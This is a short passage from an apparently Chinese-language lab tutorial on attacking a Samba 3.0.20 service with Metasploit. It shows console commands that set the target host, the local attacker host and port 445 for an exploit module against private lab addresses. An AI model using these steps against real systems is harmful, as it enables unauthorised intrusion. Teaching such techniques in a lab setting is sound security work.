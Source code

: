![此处输入图片的描述](../imgs/wm_30.png)

补充设置参数，需要设置攻击目标和攻击机本地的 IP 地址，再次查看先前的扫描结果，Samba 3.0.20 监听在 445 端口上，所以我们需要修改攻击的端口号：

```
msf > set RHOST 192.168.122.102
msf > set LHOST 192.168.122.101
msf > set RPORT 445
```

![此处输入图片的描述](../imgs/wm_31.png)

设置完成后再次查看配置参数：
